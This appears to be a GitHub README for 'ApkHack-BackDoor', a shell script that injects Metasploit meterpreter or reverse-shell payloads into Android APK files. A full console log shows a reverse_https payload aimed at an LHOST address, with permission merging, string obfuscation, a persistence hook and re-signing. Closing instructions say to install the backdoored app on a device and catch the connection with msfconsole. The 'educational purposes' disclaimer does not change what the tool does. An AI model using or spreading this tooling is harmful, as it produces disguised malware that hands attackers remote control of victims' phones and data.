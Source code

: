 # ApkHack-BackDoor
ApkHack-BackDoor is a shell script that simplifies the process of adding a backdoor to any Android APK file. Users of this shell script should have working knowledge of any Linux distribution, Bash, Metasploit, Apktool, the Android SDK, smali, etc. This shell script is provided as-is without warranty of any kind and is intended for only educational purposes. For Questions, email me darkhubgeek@gmail.com.

![apphack1](https://github.com/BitWalls-ops/ApkHack-BackDoor/blob/main/1.png)
![apphack1](https://github.com/BitWalls-ops/ApkHack-BackDoor/blob/main/2.png)

Usage:

```
root@parrot:~/Code/script/ApkHack-BackDoor/ApkHack-BackDoor# ./ApkHack-BackDoor.sh DarkHub.apk 
	    _    ____  _  __  _   _    _    ____ _  __
	   / \  |  _ \| |/ / | | | |  / \  / ___| |/ /
	  / _ \ | |_) | ' /  | |_| | / _ \| |   | ' / 
	 / ___ \|  __/| . \  |  _  |/ ___ \ |___| . \ 
	/_/   \_\_|   |_|\_\ |_| |_/_/   \_\____|_|\_\
								BitWalls-ops DarkHub
       

[*] Running ApkHack-BackDoor.sh v2.0.4a on Tue May 9 17:13:37 EDT 2023
[+] Android payload options:
1) meterpreter/reverse_http   4) shell/reverse_http
2) meterpreter/reverse_https  5) shell/reverse_https
3) meterpreter/reverse_tcp    6) shell/reverse_tcp
[?] Please select an Android payload option: 2
[?] Please enter an LHOST value: 107.4.9.31
[?] Please enter an LPORT value: 8080
[+] Android manifest permission options:
1) Keep original
2) Merge with payload and shuffle
[?] Please select an Android manifest permission option: 2
[+] Handle the payload via resource script: msfconsole -r backdoor-apk.rc
[*] Decompiling original APK file...done.
[*] Locating smali file to hook in original project...done.
[+] Package where RAT smali files will be injected: com/baidu/browser/inter
[+] Smali file to hook RAT payload: com/dark/hub/inter/BdApplication.smali
[*] Generating RAT APK file...done.
[*] Decompiling RAT APK file...done.
[*] Merging permissions of original and payload projects...done.
[*] Injecting helpful Java classes in RAT APK file...done.
[*] Creating new directory in original package for RAT smali files...done.
[+] Inject package path: com/baidu/browser/inter/pjese
[+] Generated new smali class name for MainBroadcastReceiver.smali: Iivym
[+] Generated new smali class name for MainService.smali: Aupyx
[+] Generated new smali class name for Payload.smali: Nwiuc
[+] Generated new smali class name for StringObfuscator.smali: Abnrw
[+] Generated new smali method name for StringObfuscator.obfuscate method: icobf
[+] Generated new smali method name for StringObfuscator.unobfuscate method: wbcik
[*] Copying RAT smali files to new directories in original project...done.
[*] Fixing RAT smali files...done.
[*] Obfuscating const-string values in RAT smali files...done.
[*] Adding hook in original smali file...done.
[*] Adding persistence hook in original project...done.
[*] Recompiling original project with backdoor...done.
[*] Generating RSA key for signing...done.
[*] Signing recompiled APK...done.
[*] Verifying signed artifacts...done.
[*] Aligning recompiled APK...done.
root@parrot:~/Code/script/ApkHack-BackDoor/ApkHack-BackDoor#
```

The recompiled APK will be found in the 'original/dist' directory. Install the APK on a compatible Android device, run it, and handle the meterpreter connection via the generated resource script: msfconsole -r backdoor-apk.rc
